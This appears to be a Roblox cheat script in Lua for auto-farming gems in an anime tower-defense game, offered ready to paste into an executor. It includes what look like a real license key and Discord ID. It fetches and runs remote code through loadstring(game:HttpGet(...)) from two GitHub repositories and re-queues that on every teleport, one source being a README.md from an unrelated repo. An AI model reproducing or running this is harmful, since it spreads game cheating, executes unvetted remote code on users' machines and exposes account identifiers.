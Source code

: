 _G.RoyxSpecialMode = "Hell Factory";
_G["External Config"] = {
    ["Kai Gems"] = true, -- true / false
    ["Kai Story"] = false, -- true / false
    ["Kai Battle Pass"] = false, -- true / false
    ["Kai Infinity Castle"] = false, -- true / false
    ["Auto Set Resource"] = true, -- true / false
    ["Select End Game Mode"] = "Instant Leave", -- "Instant Leave" / "Auto Sell"
    ["End Wave"] = 10, -- number
    ["Maximum Added Gems"] = 60000, -- number
    ["Close Roblox When Maximum Added Gems"] = false, -- true / false
    ["Using Limit Farming"] = true, -- true / false
    ["Stop Farming When The Limit Is Reached"] = false, -- true / false
    ["Send Webhook When The Limit Is Reached"] = false, -- true / false
    ["Webhook Url"] = "", -- string
    ["RAM Port"] = "7963", -- string
    ["RAM Password"] = "", -- string
    ["RAM Private Server Url"] = "", -- string
    ["RAM Auto Description"] = true, -- true / false
    ["RAM Auto Private Server"] = false, -- true / false
    ["RAM Auto Exit"] = false, -- true / false
    ["Fps Limit"] = 15, -- number
    ["Lock Fps"] = true, -- true / false
    ["Release Fps When Rejoin"] = false, -- true / false
    ["Select Unit"] = {"Slot 1", "Slot 2", "Slot 3"}, -- table  {"Slot 1", "Slot 2", "Slot 3", "Slot 4", "Slot 5", "Slot 6"}
};
_G.Key = "176F0-OVPVZ-CESIB"
_G.DiscordId = "645595262114594817"

local Key = _G.Key
local DiscordId = _G.DiscordId

queue_on_teleport(string.format([[
    _G.Key = "%s"
    _G.DiscordId = "%s"
    loadstring(game:HttpGet("https://raw.githubusercontent.com/Natsuhanaki/Royx_PC/main/loader.lua"))()
    loadstring(game:HttpGet("https://raw.githubusercontent.com/toohot123/Roblox1/main/README.md"))()
]], Key, DiscordId))

-- loadstring(game:HttpGet("https://raw.githubusercontent.com/Natsuhanaki/Royx_PC/main/loader.lua"))()

print("Executed!");
loadstring(game:HttpGet("https://raw.githubusercontent.com/Natsuhanaki/Royx_PC/main/loader.lua"))()
